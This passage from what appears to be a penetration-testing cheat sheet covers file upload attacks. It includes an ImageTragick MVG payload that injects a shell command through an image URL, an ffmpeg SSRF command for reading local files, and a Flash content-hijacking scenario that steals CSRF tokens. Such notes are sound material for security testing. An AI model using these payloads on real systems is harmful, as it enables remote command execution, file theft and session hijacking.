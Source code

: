 ```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/whateever.php?x=`<CMD>`'
pop graphic-context
```

More exploit codes are available on the `ImageTragick/PoCs` GitHub repository.

###### ffmpeg SSRF

If a file upload functionality allows the upload of videos, a SSRF
vulnerability in the `ffmpeg` (versions prior to 2.7.5) could be abused to read
local file.

The `gen_xbin_avi.py` Python script can be used to automatically create a file
that will, once played through `ffmpeg`, retrieve the specified local file:

```
./gen_xbin_avi.py file://<FILE_PATH> <VIDEONAME>.avi
```

###### Cross-Site Content (Data) Hijacking

If a file upload functionality do not verify the file content, a Flash file
could be uploaded as an image file and used to bypass any CSRF protection
implemented by the web application.

The attack scenario is as follow (source:
  "https://labs.detectify.com/2014/05/20/the-lesser-known-pitfalls-of-allowing-file-uploads-on-your-website/"):

  1. An attacker creates a malicious Flash (SWF) file
  2. The attacker changes the file extension to JPG
  3. The attacker uploads the file to victim.com
  4. The attacker embeds the file on attacker.com using an <object> tag with
     type “application/x-shockwave-flash”
  5. The victim visits attacker.com, loads the file as embedded with the
     <object> tag
  6. The attacker can now send and receive arbitrary requests to victim.com
     using the victims session
  7. The attacker sends a request to victim.com and extracts the CSRF token
     from the response

The `CrossSiteContentHijacking` GitHub repository contains PoC files to exploit
the vulnerability.

--------------------------------------------------------------------------------

### References

https://www.owasp.org/index.php/Unrestricted_File_Upload
https://fr.slideshare.net/HackIT-ukraine/15-technique-to-exploit-file-upload-pages-ebrahim-hegazy
http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html
https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf
https://labs.detectify.com/2014/05/20/the-lesser-known-pitfalls-of-allowing-file-uploads-on-your-website/
